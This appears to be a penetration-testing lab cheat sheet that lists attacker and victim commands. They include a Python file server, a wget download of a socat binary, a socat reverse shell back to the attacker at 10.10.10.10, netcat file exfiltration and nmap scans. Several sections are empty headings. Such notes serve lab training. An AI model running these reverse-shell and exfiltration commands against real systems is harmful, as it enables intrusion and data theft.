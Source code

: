 *10.10.10.10 -Kali host && 10.10.10.77 - Victim host*
# Useful Commands

> This section will include commands / code I used in the lab environment that I found useful

## Web server

### With Python

Kali: ```python3 -m http.server 8888``` or ```python -m SimpleHTTPServer 80```

Victim: ```wget http://10.10.10.10:8888/something.sh -O something.sh```

## Upgrade reverse shell

### With Socat

Victim: 
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat
chmod +x socat
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```
        
Kali:   ```socat file:`tty`,raw,echo=0 tcp-listen:4444```

### With Python

Victim: ```python3 -c 'import pty; pty.spawn("/bin/sh")'```

## Send files

### With netcat

Kali:   ```nc -lvp 4444 > file.txt```

Victim: ```cat file.txt | nc -q 0 10.10.10.10 4444```

## Reverse shells 


# Enumeration

> Enumeration is the most important thing you can do, at that inevitable stage where you find yourself hitting a wall, 90% of the time it will be because you haven’t done enough enumeration

### Nmap

TCP Scan:

```nmap -sV -sC -p- 10.10.10.77```

UDP Scan:

```nmap -sU -sV -p- 10.10.10.77```

# Privilege Escalation

# Some Scripts

# References
